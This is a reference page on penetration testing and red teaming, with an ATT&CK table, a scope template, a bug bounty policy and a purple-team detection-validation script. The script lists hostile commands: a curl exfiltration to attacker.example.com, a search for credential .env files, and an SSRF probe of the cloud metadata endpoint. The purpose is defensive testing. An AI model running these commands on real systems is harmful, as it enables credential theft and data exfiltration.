


# Penetration Testing & Red Teaming

## Category

DevSecOps, Offensive Security, Risk Assessment, Security Validation

## Context

**Penetration Testing** (pentest) is an authorised, time-boxed simulation of an attacker's techniques against a specific target. **Red Teaming** is a broader, objective-based exercise where a skilled offensive team attempts to achieve a business-impact goal (e.g. "exfiltrate customer PII") using any means available — including phishing, social engineering, physical access, and zero-days — without the defender's knowledge that the exercise is underway.

These complement automated scanning (SAST, DAST, SCA): automation finds known patterns at scale; humans find novel logic flaws, chained vulnerabilities, and real-world exploitability.

### Test Types Compared

| Type | Scope | Duration | Attacker Knowledge | Defenders Know? |
|------|-------|----------|-------------------|-----------------|
| **External Pentest** | Public surface (APIs, web apps) | 1–2 weeks | Black/grey box | Yes |
| **Internal Pentest** | Internal network, AD, services | 1–2 weeks | White box | Yes |
| **Web App Pentest** | Single application | 3–5 days | Grey/white box | Yes |
| **API Pentest** | API endpoints & business logic | 3–5 days | White box + spec | Yes |
| **Red Team Exercise** | Full kill chain (phishing → lateral movement → goal) | 4–12 weeks | Black box | No (blue team unaware) |
| **Purple Team** | Red + Blue collaborate in real time | 1–2 weeks | Full collaboration | Yes (joint exercise) |
| **Bug Bounty** | Continuous, community-driven | Ongoing | Black box | Yes |

### Penetration Testing Methodology

```
RECONNAISSANCE → SCANNING → EXPLOITATION → POST-EXPLOITATION → REPORTING
      │               │            │               │                │
   OSINT           Port scan    Vuln exploit   Lateral move    Findings brief
   DNS enum        Service ID   Auth bypass    Priv escalation Risk rating
   Tech stack      API map      Injection      Data access     Remediation
```

**Standard frameworks:**
- **PTES** (Penetration Testing Execution Standard)
- **OWASP Testing Guide** (OTG) — web and API
- **TIBER-EU** — threat intelligence-based red teaming for financial institutions
- **CBEST** — UK FCA/PRA framework for systemic financial institutions
- **MITRE ATT&CK** — adversary tactics, techniques, and procedures catalogue

### MITRE ATT&CK Coverage Map

| Tactic | Example Techniques | Detection Control |
|--------|-------------------|-------------------|
| Initial Access | Phishing (T1566), Public-Facing App (T1190) | Email security, WAF |
| Execution | Command & Scripting (T1059) | EDR, Falco |
| Persistence | Web Shell (T1505.003), Scheduled Task (T1053) | FIM, runtime security |
| Privilege Escalation | Sudo (T1548.003), Token Impersonation (T1134) | PAM, CSPM |
| Credential Access | Secrets in Files (T1552.001), Kerberoasting (T1558.003) | Vault, AD hardening |
| Lateral Movement | Internal Spearphishing (T1534), Service Admin (T1021) | Network segmentation, mTLS |
| Exfiltration | Data Over Web (T1048.002) | DLP, CASB, egress monitoring |

---

## Pros

- **Validates real-world risk**: A pentest answers "can an attacker actually exploit this?" — automation cannot.
- **Finds chained vulnerabilities**: Individual CVSS 4 findings that, combined, yield critical impact.
- **Builds blue team capability**: Provides real attack telemetry for tuning detection rules.
- **Satisfies regulatory requirements**: PCI-DSS 11.4, ISO 27001 A.12.6, SOC 2 CC6.8, FCA CBEST, EU DORA all require periodic penetration testing.
- **Purple team improves MTTD**: Defenders improve detection rules against techniques they just watched executed.

## Cons

- **Point-in-time snapshot**: A pentest is valid at a moment in time — new features or config changes may introduce new vulnerabilities the next day.
- **Scope limitations**: A tightly scoped test may miss entire attack surfaces.
- **Skill and cost**: Quality red team exercises are expensive (£30k–£200k+) and require highly skilled practitioners.
- **Alert fatigue risk**: Real attack traffic during exercises can flood SOC analysts if not coordinated.

---

## Design Diagram



---

## Code Sample

### 1. Pentest Scope Document Template

```markdown
# Penetration Test Scope — Payments Platform

**Engagement period:** 2026-05-01 to 2026-05-14  
**Type:** Grey-box web application + API penetration test  
**Testing window:** Business hours (09:00–18:00 GMT) — no weekend testing  
**Emergency stop contact:** security@example.com | +44 7700 900000

## In Scope
- https://api.payments.example.com (all authenticated endpoints)
- https://app.payments.example.com (web application)
- Authentication service: https://auth.payments.example.com
- Test environment only — production is OUT OF SCOPE

## Out of Scope
- Production environment and production data
- Third-party services (Stripe, Twilio, SendGrid)
- DoS/DDoS testing
- Social engineering of employees
- Physical access

## Provided Credentials
| Role | Username | Notes |
|------|----------|-------|
| Customer | pentest+customer@example.com | Standard account |
| Admin | pentest+admin@example.com | Admin role — test BFLA |

## Rules of Engagement
- Do not exfiltrate real customer data — stop and report immediately
- Do not exploit findings beyond proof-of-concept
- Report critical findings immediately via secure channel
- All testing traffic must originate from agreed IP ranges: 203.0.113.0/24
```

### 2. Purple Team — Detection Rule Validation Script

```typescript
// Simulate MITRE ATT&CK techniques and verify Falco/Sentinel alerts fire
// Run in isolated test environment with detection tools active

import { execSync } from 'child_process';

interface AttackTest {
  technique:   string;   // ATT&CK ID
  name:        string;
  command:     string;   // command to simulate the technique
  expectedAlert: string; // what the SIEM should surface
}

const PURPLE_TEAM_TESTS: AttackTest[] = [
  {
    technique: 'T1059.004',
    name: 'Unix Shell Execution in Container',
    // Simulate attacker spawning a shell (should trigger Falco: Terminal shell in container)
    command: 'kubectl exec -n payments deploy/payment-api -- /bin/sh -c "id && whoami"',
    expectedAlert: 'Terminal shell in container',
  },
  {
    technique: 'T1552.001',
    name: 'Credentials in Files',
    command: 'kubectl exec -n payments deploy/payment-api -- find / -name "*.env" -readable 2>/dev/null',
    expectedAlert: 'Sensitive file opened for reading',
  },
  {
    technique: 'T1048.002',
    name: 'Exfiltration Over Web Service',
    command: 'kubectl exec -n payments deploy/payment-api -- curl -s http://attacker.example.com/exfil -d "data=test"',
    expectedAlert: 'Unexpected outbound connection from container',
  },
  {
    technique: 'T1190',
    name: 'Exploit Public-Facing Application — SSRF probe',
    command: 'curl -s -X POST https://api-test.payments.example.com/api/webhooks/test -H "Authorization: Bearer $TEST_TOKEN" -d \'{"callbackUrl":"http://169.254.169.254/latest/meta-data/"}\'',
    expectedAlert: 'SSRF attempt blocked by WAF',
  },
];

async function runPurpleTeamTest(test: AttackTest) {
  console.log(`<br/>[${test.technique}] ${test.name}`);
  console.log(`Command: ${test.command}`);

  try {
    const output = execSync(test.command, { timeout: 10_000 }).toString();
    console.log(`Output: ${output.slice(0, 200)}`);
  } catch (err) {
    console.log(`Blocked/Failed: ${err}`);
  }

  console.log(`Expected alert: "${test.expectedAlert}"`);
  console.log(`→ Check SIEM/Falco for this alert within 60 seconds`);
  // In a real exercise: query Sentinel/Elasticsearch API to confirm alert fired
}

// Run sequentially with a gap between tests to avoid correlation confusion
for (const test of PURPLE_TEAM_TESTS) {
  await runPurpleTeamTest(test);
  await new Promise(r => setTimeout(r, 30_000));   // 30s between tests
}
```

### 3. Bug Bounty — HackerOne Policy Template

```markdown
# Bug Bounty Policy — Payments Platform

**Platform:** HackerOne  
**Programme type:** Private (invite-only initially, then public after 6 months)  
**Response SLA:** Triage within 2 business days; initial response within 24 hours for Critical

## Scope

### In Scope
| Asset | Type | Reward Range |
|-------|------|-------------|
| api.payments.example.com | Web + API | £200–£10,000 |
| app.payments.example.com | Web | £100–£5,000 |
| *.payments.example.com | Wildcard subdomains | £50–£2,500 |

### Out of Scope
- Known issues on our public tracker
- Self-XSS without meaningful impact
- Rate limiting on non-sensitive endpoints (login and OTP are in scope)
- Missing headers with no direct exploitability
- Content injection without script execution
- Social engineering, phishing, physical attacks

## Reward Table

| Severity | CVSS | Example | Reward |
|----------|------|---------|--------|
| Critical | 9.0–10.0 | Auth bypass, BOLA on all users | £5,000–£10,000 |
| High | 7.0–8.9 | BOLA on other user's data, SQLi | £1,000–£5,000 |
| Medium | 4.0–6.9 | CSRF, stored XSS (limited) | £200–£1,000 |
| Low | 0.1–3.9 | Open redirect, verbose errors | £50–£200 |

## Safe Harbour
Researchers acting in good faith within this policy will not face legal action.
Do not access, modify, or exfiltrate customer data. Stop testing and contact us immediately
if you encounter live PII or payment card data.
```

### 4. Pentest Findings — Automated Triage Webhook

```typescript
// Receive findings from pentest platform (HackerOne / Bugcrowd webhooks)
// and auto-create Jira tickets with SLA due dates

import express from 'express';
import crypto from 'crypto';

const app = express();

// Verify HMAC signature from HackerOne webhook
function verifyHackerOneSignature(payload: Buffer, signature: string): boolean {
  const expected = crypto
    .createHmac('sha256', process.env.H1_WEBHOOK_SECRET!)
    .update(payload)
    .digest('hex');
  return crypto.timingSafeEqual(
    Buffer.from(signature, 'hex'),
    Buffer.from(expected, 'hex')
  );
}

const SLA_HOURS: Record<string, number> = {
  critical: 24,
  high:     7 * 24,
  medium:   30 * 24,
  low:      90 * 24,
};

app.post('/webhooks/hackerone', express.raw({ type: 'application/json' }), async (req, res) => {
  const sig = req.headers['x-hackerone-signature'] as string;
  if (!verifyHackerOneSignature(req.body, sig)) {
    return res.status(401).json({ error: 'Invalid signature' });
  }

  const event = JSON.parse(req.body.toString());
  if (event.event_type !== 'report.triaged') return res.json({ ok: true });

  const report   = event.data.report;
  const severity = report.severity?.rating?.toLowerCase() ?? 'medium';
  const dueDate  = new Date(Date.now() + SLA_HOURS[severity] * 3_600_000);

  // Create Jira ticket
  await createJiraTicket({
    project: 'SEC',
    type: 'Security Finding',
    summary: `[PENTEST] [${severity.toUpperCase()}] ${report.title}`,
    description: report.vulnerability_information,
    priority: severity === 'critical' || severity === 'high' ? 'High' : 'Medium',
    dueDate: dueDate.toISOString().split('T')[0],
    labels: ['pentest', `sev-${severity}`, 'bug-bounty'],
    externalLink: `https://hackerone.com/reports/${report.id}`,
  });

  res.json({ ok: true });
});
```

### 5. TIBER-EU / CBEST — Threat Intelligence-Led Test Workflow



---

## References

- [PTES — Penetration Testing Execution Standard](http://www.pentest-standard.org/)
- [OWASP Testing Guide v4.2](https://owasp.org/www-project-web-security-testing-guide/)
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [TIBER-EU Framework — ECB](https://www.ecb.europa.eu/pub/pdf/other/ecb.tiber_eu_framework.en.pdf)
- [CBEST Intelligence-Led Testing — Bank of England](https://www.bankofengland.co.uk/financial-stability/operational-resilience/cbest)
- [DefectDojo — Open-source finding management](https://defectdojo.com/)
- [HackerOne Platform](https://www.hackerone.com/)
- [Bugcrowd Platform](https://www.bugcrowd.com/)
